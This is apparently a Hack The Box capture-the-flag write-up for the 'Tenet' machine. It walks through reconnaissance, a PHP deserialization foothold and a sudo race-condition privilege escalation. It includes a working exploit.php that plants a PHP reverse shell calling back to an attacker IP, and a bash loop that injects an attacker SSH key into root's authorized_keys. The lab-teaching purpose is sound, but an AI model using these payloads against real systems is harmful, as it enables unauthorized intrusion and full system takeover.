

<p align="center"></img></p>
<p align="center">Creator: <a href="https://app.hackthebox.eu/profile/94858">egotisticalSW</a></p>

# Personal thoughts
This is a custom exploitation box, and you obviously need to know about `PHP Object Injection` and a bit of scripting.. Enjoyed solving it and learned new things; apart from the foothold, it's not even a medium-leveled box. I tried to explain the steps as simple as I can. Hope you'll find it useful; if so, consider [suporting](https://www.buymeacoffee.com/f4T1H21) a student to get `OSCP` exam and __+respecting my profile in HTB__.

<a href="https://app.hackthebox.eu/profile/184235">
  
  </img>
</a>
<br>
<a href="https://www.buymeacoffee.com/f4T1H21">
  
  </img>
</a><br><br>
Now, let me get right into it.

---

# Reconnaissance
First things first, add `tenet.htb 10.10.10.223` line to your `/etc/hosts` file.

Let's start with nmap:
```bash
nmap -sS -sC -sV -p- 10.10.10.223

```
```c
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 cc:ca:43:d4:4c:e7:4e:bf:26:f4:27:ea:b8:75:a8:f8 (RSA)
|   256 85:f3:ac:ba:1a:6a:03:59:e2:7e:86:47:e7:3e:3c:00 (ECDSA)
|_  256 e7:e9:9a:dd:c3:4a:2f:7a:e1:e0:5d:a2:b0:ca:44:a8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: WordPress 5.6
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Tenet
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Here we have only one open port except `22/ssh`, let's go with that then..

## 80/http
Let's start with the direct ip address of the box, which is `10.10.10.223`.

### Direct IP: `10.10.10.223`

We have only an "`Apache 2` `Ubuntu` Default Page" here. Let's do some further enumeration:


#### Scanning subdirectories
Personally I love `gobuster`, so I'm going with it. You can go with `wfuzz` or `ffuf` or your own tool.
```sh
┌──(root💀f4T1H)-[~/hackthebox/tenet]
└─> gobuster dir -q -u http://10.10.10.223 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .txt,.php -e
http://10.10.10.223/users.txt            (Status: 200) [Size: 7]
http://10.10.10.223/wordpress            (Status: 301) [Size: 316] [--> http://10.10.10.223/wordpress/]
```
`users.txt`, hmm interesting. But as you can see below we have nothing but `Success` string inside it..



We have a wordpress site -which we saw in the `nmap` result- in `/wordpress/` directory.

Let's continue with the wordpress domain then, `tenet.htb`.

### Domain: `tenet.htb`
Here we have the wordpress site and some posts..


- Scannning for subdirectories on `tenet.htb` only gives us general wordpress directories.
- Nothing interesting in `wpscan` result.

While enumerating inside the page, I found a comment in the post `Migration`.


Here we got two things:
- A username: `neil`
- A file named `sator.php` and its backup.

Let's first learn which extensions are being used in backup files..


Okay, now we need to check these 3 backup extensions with their two variations (uppercase and lowercase) and on the two `root` directories which are `tenet.htb/` and `10.10.10.223/`.

After the hit and try, I found the files in `10.10.10.223/sator.php` and `10.10.10.223/sator.php.bak`. Download and move `sator.php.bak` into your current working directory.

__sator.php__


__sator.php.bak__
```php
<?php

class DatabaseExport
{
	public $user_file = 'users.txt';
	public $data = '';

	public function update_db()
	{
		echo '[+] Grabbing users from text file <br>';
		$this-> data = 'Success';
	}


	public function __destruct()
	{
		file_put_contents(__DIR__ . '/' . $this ->user_file, $this->data);
		echo '[] Database updated <br>';
	//	echo 'Gotta get this working properly...';
	}
}

$input = $_GET['arepo'] ?? '';
$databaseupdate = unserialize($input);

$app = new DatabaseExport;
$app -> update_db();


?>
```

# Foothold: `PHP Object Injection` aka `Deserialization`
__Okay, here comes my explanation:__

>In a PHP code, if a class has a function named `__destruct`; when we `unserialize` the class, PHP calls the `__destruct` function in that class. Problem begins in the class's `__destruct` function's content; if the function writes variables' data to a file, then we can exploit it by changing values of serialized class's variables.

- Google to know more about this vulnerability.
- You may want to read [this](https://medium.com/swlh/exploiting-php-deserialization-56d71f03282a/) article to make things more clear in your brain.
- If you know Turkish, [this](https://www.mehmetince.net/php-object-injection-saldirilari-ve-korunmasi/) article by [@mdisec](https://github.com/mdisec) can also be useful for you.

__The relationship with our case:__

- We see the code looks for a GET input variable "`arepo`" and `unserializes` it.
- The function `__destruct` in the class `DatabaseExport` uses `file_put_contents` to write the variable data to the file defined in the variable `user_file`

Now we need to make some differences on the PHP code to exploit this vulnerability and get a reverse shell. I left the parts we don't need in the code too so that you can see what exactly we changed in the code.

## Scripting time XD


This script we modified writes `DatabaseExport` class to our local machine, defines the `user_file` variable as a PHP file and the data as a reverse_shell to our localhost.

#### exploit.php
```php
<?php

class DatabaseExport
{
	public $user_file = 'shell.php';
	public $data = '<?php $sock=fsockopen("YOUR_IP_HERE",2121);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes); ?>';
//	public $user_file = 'users.txt';
//	public $data = '';

//	public function update_db()
//	{
//		echo '[+] Grabbing users from text file <br>';
//		$this-> data = 'Success';
//	}
//

	public function __destruct()
	{
		file_put_contents(__DIR__ . '/' . $this ->user_file, $this->data);
		echo '[] Database updated <br>';
	//	echo 'Gotta get this working properly...';
	}
}

$url = 'http://10.10.10.223/sator.php?arepo=' . urlencode(serialize(new DatabaseExport));
$response = file_get_contents("$url");
$response = file_get_contents("http://10.10.10.223/shell.php");


//$input = $_GET['arepo'] ?? '';
//$databaseupdate = unserialize($input);

//$app = new DatabaseExport;
//$app -> update_db();


?>
```

## Getting the `shell`
Now the only thing we need to do is running a `nc` listener and firing up the exploit.php.

__Attention__: Change the ip address part.


__💥BOOM We got a shell as `www-data`!!!__

# Privilege Escalation: Race Condition
Before escalating to `root`, let's first become the user `neil` as you can remember we found him in comments.
## Escalating to user
There's a `/var/www/html/wordpress` directory, and usually the wordpress directories contain credentials inside a file named wp-config.php in them.


Now we can SSH into the machine as the user.

## Escalating to `root`
Before running anything else, let's check if we have any sudo privileges with `sudo -l` as we know our password.
```bash
neil@tenet:~$ sudo -l
Matching Defaults entries for neil on tenet:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:

User neil may run the following commands on tenet:
    (ALL : ALL) NOPASSWD: /usr/local/bin/enableSSH.sh
neil@tenet:~$
```

__/usr/local/bin/enableSSH.sh__
```bash
#!/bin/bash

checkAdded() {

	sshName=$(/bin/echo $key | /usr/bin/cut -d " " -f 3)

	if [[ ! -z $(/bin/grep $sshName /root/.ssh/authorized_keys) ]]; then

		/bin/echo "Successfully added $sshName to authorized_keys file!"

	else

		/bin/echo "Error in adding $sshName to authorized_keys file!"

	fi

}

checkFile() {

	if [[ ! -s $1 ]] || [[ ! -f $1 ]]; then

		/bin/echo "Error in creating key file!"

		if [[ -f $1 ]]; then /bin/rm $1; fi

		exit 1

	fi

}

addKey() {

	tmpName=$(mktemp -u /tmp/ssh-XXXXXXXX)

	(umask 110; touch $tmpName)

	/bin/echo $key >>$tmpName

	checkFile $tmpName

	/bin/cat $tmpName >>/root/.ssh/authorized_keys

	/bin/rm $tmpName

}

key="ssh-rsa AAAAA3NzaG1yc2GAAAAGAQAAAAAAAQG+AMU8OGdqbaPP/Ls7bXOa9jNlNzNOgXiQh6ih2WOhVgGjqr2449ZtsGvSruYibxN+MQLG59VkuLNU4NNiadGry0wT7zpALGg2Gl3A0bQnN13YkL3AA8TlU/ypAuocPVZWOVmNjGlftZG9AP656hL+c9RfqvNLVcvvQvhNNbAvzaGR2XOVOVfxt+AmVLGTlSqgRXi6/NyqdzG5Nkn9L/GZGa9hcwM8+4nT43N6N31lNhx4NeGabNx33b25lqermjA+RGWMvGN8siaGskvgaSbuzaMGV9N8umLp6lNo5fqSpiGN8MQSNsXa3xXG+kplLn2W+pbzbgwTNN/w0p+Urjbl root@ubuntu"
addKey
checkAdded
```

Oh, here comes the second fun part, which is a `Race Condition`

Let me explain what this script actually does:
- First creates a randomly-generated named file format of `/tmp/ssh-XXXXXXXX`. Think like you can add change each of "X" characters in the name with any other random character.
- Then writes `root@ubuntu`'s public ssh key inside that file.
- After that writes the content of `/tmp/ssh-XXXXXXXX` -which now has the public ssh key of `root` inside it- to `/root/.ssh/authorized_keys`.
- And finally deletes the `/tmp/ssh-XXXXXXXX` file.

Now the thing is: There is a race condition here because we can change content of the file created with a simple bash looop before the script gets executed the next line which is adding the content to /root/authorized_keys.

Through this, we can be able to `ssh` into `root@tenet.htb` without password or any other thing.

## Getting the `root` shell
__Attention__: Make sure you have __two__ `ssh` __connection__ to the box as the user `neil`.

#### Steps to get `root`:
##### #1 Generate a public-private ssh key pair.
Run in your localhost, do not type anything as password or file name, just press _Enter_.
```bash
┌──(root💀f4T1H)-[~/hackthebox/tenet]
└─> ssh-keygen       
Generating public/private rsa key pair.
Enter file in which to save the key (/root/.ssh/id_rsa):
Created directory '/root/.ssh'.
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in /root/.ssh/id_rsa
Your public key has been saved in /root/.ssh/id_rsa.pub
```

##### #2 Set a loop
We need to write our public key immediately to the `/tmp/ssh-XXXXXXXX` file when `/usr/local/bin/enableSSH.sh` is running. Because the file is both being creaated and deleted by `/usr/local/bin/enableSSH.sh`. That means we can't execute write command by hand on time, we need a loop to make things rapidly.

Run this in one of your ssh connections.

__Attention__: Make sure you copied your public ssh key from `~/.ssh/id_rsa.pub`.
```bash
neil@tenet:~$ while true; do echo 'YOUR_PUBLIC_SSH_KEY_HERE' | tee /tmp/ssh-* > /dev/null;done
```

##### #3 Run the script
Now we all set, run the script in the other of your ssh connections with sudo privileges and write our public ssh key into `root`'s `authorized_keys`.

__Attention__: You need to run the script 7-8 times.
```bash
neil@tenet:~$ sudo /usr/local/bin/enableSSH.sh
Successfully added root@ubuntu to authorized_keys file!
neil@tenet:~$
```
#### #4 Connect to box via ssh as `root`
If you've done all the steps that I write, we are now able to `ssh` `root@tenet.htb`.


And we successfully pwned the machine...


---

# Closing
If you liked my writeup, consider [suporting](https://www.buymeacoffee.com/f4T1H21) a student to get `OSCP` exam and __+respecting__ my profile in HTB.

<a href="https://app.hackthebox.eu/profile/184235">
  
  </img>
</a>
<br>
<a href="https://www.buymeacoffee.com/f4T1H21">
  
  </img>
</a>

# Resources
|`Exploiting PHP Deserialization`|https://medium.com/swlh/exploiting-php-deserialization-56d71f03282a|
|:-|:-|
|__`PHP Object Injection Saldırıları`__|__https://www.mehmetince.net/php-object-injection-saldirilari-ve-korunmasi/__|

<br>

___-Written by f4T1H-___
